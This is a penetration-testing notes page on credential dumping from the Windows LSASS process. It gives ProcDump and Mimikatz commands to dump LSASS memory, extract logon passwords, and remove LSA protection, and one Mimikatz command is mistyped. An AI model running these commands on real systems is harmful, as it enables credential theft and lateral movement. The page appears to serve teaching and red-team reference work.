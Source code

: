 # Local Security Authority Subsystem Service (LSASS)

### Resources

1. **LSASS**

{% embed url="https://jumpcloud.com/it-index/what-is-the-local-security-authority-subsystem-service-lsass-exe" %}

2. **ProdDump**

{% embed url="https://learn.microsoft.com/en-us/sysinternals/downloads/procdump" %}

2. **Mimidrv**

{% embed url="https://medium.com/@matterpreter/mimidrv-in-depth-4d273d19e148" %}

3. **MITRE technique, OS Credential Dumping: LSASS Memory (T1003.001)**

{% embed url="https://attack.mitre.org/techniques/T1003/001/" %}

### What is LSASS?

Local Security Authority Server Service (LSASS) is a Windows process that handles the operating system security policy and enforces it on a system. The LSASS process stores user credentials in memory to enable users to access network resources, such as file shares and other network services, without needing to enter credentials each time.

Thus, the LSASS process is often targeted by attackers due to the sensitive information it contains about user accounts, to dump credentials for privilege escalation or lateral movement.

The following techniques can be used to exploit this (requires administrator privileges):

> As defined in the MITRE ATT\&CK framework: **OS Credential Dumping: LSASS Memory (T1003.001)**

### LSA protection

Note that the techniques to dump the LSASS process discussed below may not work due the implementation of the LSA protection, which aims to keep LSASS from being accessed to extract credentials from memory

{% embed url="https://learn.microsoft.com/en-us/windows-server/security/credentials-protection-and-management/configuring-additional-lsa-protection#enable-by-using-the-registry" %}

This protection can be enabled with the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` registry key, by setting the `RunAsPPL`&#x20;

**dword** value to **1**.

However, a particular Mimikatz technique can be used to disable this protection (refer to the **Disable LSA protection** section below).&#x20;

### ProcDump

> ProcDump is a command-line utility whose primary purpose is monitoring an application for CPU spikes and generating crash dumps during a spike that an administrator or developer can use to determine the cause of the spike.

In our case, we will be using it to dump the LSASS process to disk:

```powershell
C:\> procdump.exe -accepteula -ma lsass.exe <dump_location>
```

* `-accepteula`:  to automatically accept the Sysinternals license agreement
* `-ma:` To write a 'Full' dump file
  * Includes all memory
  * Includes all metadata

### Mimikatz

We can also use Mimikatz to dump the contents of the LSASS process.

#### a. Dump directly from the live LSASS process (requires administrative privileges)

{% code title="Administrator shell" overflow="wrap" %}
```powershell
C:\> mimikatz.exe
mimikatz # privilege::debug
mimikatz # sekrulsa
```
{% endcode %}

#### b. Extract from a previously dumped LSASS process file (does not require administrative privileges)

Given that we have previously dumped the LSASS process to a file named `lsass.dmp` using the `ProcDump` utility, we can use the following commands to extract information from the dumped file:

```powershell
mimikatz # sekurlsa::minidump lsass.dmp
```

### Disable LSA protection

{% code title="Administrator shell" %}
```powershell
mimikatz # !+
mimikatz # !processprotect /process:lsass.exe /remove

# LSASS dump should now succeed
mimikatz # sekurlsa::logonpasswords 
```
{% endcode %}

